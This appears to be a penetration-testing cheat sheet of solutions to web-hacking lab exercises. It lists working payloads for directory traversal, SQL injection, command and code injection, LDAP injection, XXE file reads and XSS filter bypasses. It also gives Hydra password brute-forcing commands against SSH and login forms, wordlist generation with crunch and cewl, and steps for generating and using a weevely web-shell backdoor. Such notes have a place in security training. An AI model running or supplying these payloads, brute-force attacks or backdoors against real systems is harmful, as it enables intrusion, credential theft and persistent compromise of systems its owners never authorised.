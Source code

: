 # Phase III: Vulnerbility discovery & Exploitation
### Directory Traversal
| excercise | solution |
|-----------|----------|
| example&nbsp;1 | ../../../../../../../../../etc/passwd |
| example&nbsp;2 | /var/www/files/../../../etc/passwd |
| example&nbsp;3 | ../../../etc/passwd%00 `Null Bytes Injection` |

### File Include
| excercise | solution |
|-----------|----------|
| example&nbsp;1 | ../../../../../../../../../etc/passwd |
| example&nbsp;2 | ../../../etc/passwd%00 `Null Bytes Injection` |

### SQL Injection
| excercise | solution |
|-----------|----------|
| example&nbsp;1 | root'+OR+'1'='1, `root'OR+1=1+--` |
| example&nbsp;2 | root'%09OR'1'='1 |
| example&nbsp;3 | root'/**/OR/**/'1'='1 |
| example&nbsp;4 | 2+OR+1=1 |
| example&nbsp;5 | 2+OR+1=1#123 |
| example&nbsp;6 | 2+OR+1=1#123 |
| example&nbsp;7 | 2%0AOR+1=1# |
| example&nbsp;8 | name\`,IF((SELECT+0x61)=0x61%2Cid%2Cage)+%23 |
| example&nbsp;9 | IF((SELECT+0x61)=0x61%2Cid%2Cage), `IF((SELECT'a')='a',id,age)` |

### Command Injection
| excercise | solution |
|-----------|----------|
| example&nbsp;1 | 10.0.2.4+%26%26+cat+%2Fetc%2Fpasswd `10.0.2.4 && cat /etc/passwd`|
| example&nbsp;2 | 10.0.2.4%0A%26%26+cat+%2Fetc%2Fpasswd `10.0.2.4(New Line)&& cat /etc/passwd`|
| example&nbsp;3 | curl -X GET http://10.0.2.4/commandexec/example3.php?ip=10.0.2.4%0A%26%26+cat+%2Fetc%2Fpasswd |

### LDAP attacks
| excercise | solution |
|-----------|----------|
| example&nbsp;1 | http://10.0.2.4/ldap/example1.php `remove all parameter` |
| example&nbsp;2 | http://10.0.2.4/ldap/example2.php?name=hacker)(cn=*))%00&password=1234 |

### XML attacks
| excercise | solution |
|-----------|----------|
| example&nbsp;1 | http://10.0.2.4/xml/example1.php?xml=%3C%21DOCTYPE%20foo%20%5B%3C%21ENTITY%20xxe%20SYSTEM%20%22file%3A%2F%2F%2Fetc%2Fpasswd%22%3E%5D%3E%3Ctest%3E%26xxe%3B%3C%2Ftest%3E `<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><test>&xxe;</test>` |
| example&nbsp;2 | http://10.0.2.4/xml/example2.php?name=hacker%27+or+1=1]%00 `hacker'+or+'1'='1`|

## Hydra
### Secure Shell
hydra -P /usr/shared/wordlists/rockyou.txt
	  -l root
	  ssl://10.0.4.5
	  -f -vVd 
	  -o result.txt
	  -e nsr

### Basic Authentication
hydra -P /usr/shared/wordlists/rockyou.txt
	  -l admin
	  10.0.4.5 http-get "/auth"
	  -f
### Form Authentication
hydra -P /usr/shared/wordlists/rockyou.txt
	  -l admin
	  10.0.4.5 http-post-form "/login:username=^USER^:password=^PASS^:submit=Login:F=Invalid username"
	  -f

### DVWA Authentication
hydra -l admin -P /usr/share/wordlists/rockyou.txt 	
	  192.168.7.159 -s 8080 http-get-form 
	  "/dvwa/vulnerabilities/brute:username=^USER^&password=^PASS^&Login=Login:F=password incorrect"
	  -f
	  -vVd

### Create WordList
* crunch 4 4 `minimum 4 characters and maximum  4 characters`
* crunch 4 4 -o mywordlist.txt
* crunch 4 4 1234567890 -o mywordlist.txt
* crunch 4 4 -t @%,^ -o mywordlist.txt `@=lowercase characters, %=numbers, ,=uppercase characters, ^=symbols`
* crunch 4 4 -f /usr/share/crunch/charset.lst lalpha -o mywordlist
* cewl -d 2 -m 4 -w test.txt http://www.php.net `-d=depth, -m=minimum word length, -w=write`

### Code Injection
| excercise | solution |
|-----------|----------|
| example&nbsp;1 | http://10.0.2.4/codeexec/example1.php?name=hacker".system('uname -a');# |
| example&nbsp;2 | http://10.0.2.4/codeexec/example2.php?order=id);}system('uname%20-a');%2F%2F |

### XSS
| excercise | solution |
|-----------|----------|
| example&nbsp;1 | example1.php?name=%3Cscript%3Ealert(1)%3C%2fscript%3E |
| example&nbsp;2 | example2.php?name=<scri<sCrIpt>pt>alert(1)<%2fscri<%2fScRipt>pt> |
| example&nbsp;3 | example3.php?name=<scri<sCrIpt>pt>alert(1)<%2fscri<%2fScRipt>pt> |
| example&nbsp;4 | example4.php?name=<img src=xxx onerror=alert(1)> |
| example&nbsp;5 | example5.php?name=<script>eval(String.fromCharCode(97,108,101,114,116,40,49,41))</script> |
| example&nbsp;6 | example6.php?name=hacker";alert(1)%2f%2f |
| example&nbsp;7 | example7.php?name=hacker';alert(1)%2f%2f |
| example&nbsp;8 | example8.php/"><script>alert(1)</script> |
| example&nbsp;8 | example9.php/#<script>alert(1)</script> |

## Backdoor
### weevely
 1. weevely generate 1234 /root/hack.php
 2. upload file
 3. weevely http://.../upload/hack.php 123
 4. weevely> help
 5. weevely> :system_info
 6. weevely> :audit_etcpasswd
 7. weevely> :bruteforce_sql